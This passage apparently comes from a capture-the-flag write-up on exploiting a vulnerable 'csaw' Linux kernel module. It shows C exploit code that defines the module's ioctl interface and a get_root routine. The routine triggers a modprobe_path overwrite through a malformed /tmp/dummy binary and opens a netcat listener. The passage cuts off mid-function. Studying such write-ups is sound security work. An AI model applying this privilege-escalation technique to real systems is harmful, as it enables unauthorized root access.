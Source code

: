 ```
```

### An easier payload...
This time we will overwrite modprobe_path:
```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/prctl.h>

#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE + 1
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE + 3
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE + 5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE + 6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE + 7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE + 8
#define SEEK_SET    0
typedef unsigned long loff_t;
struct alloc_channel_args {
    size_t buf_size;
    int id;
};
struct grow_channel_args {
    int id;
    size_t size;
};
struct read_channel_args {
    int id;
    char *buf;
    size_t count;
};
struct write_channel_args {
    int id;
    char *buf;
    size_t count;
};
struct seek_channel_args {
    int id;
    loff_t index;
    int whence;
};
struct close_channel_args {
    int id;
};


void get_root(void){
	if (fork()==0){ 
		system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
		system("chmod +x /tmp/dummy");
		for (int i=0;i<10;i++){
			system("/tmp/dummy");
		}
	}
	system("nc -l -p 2333");
	exit(0);
```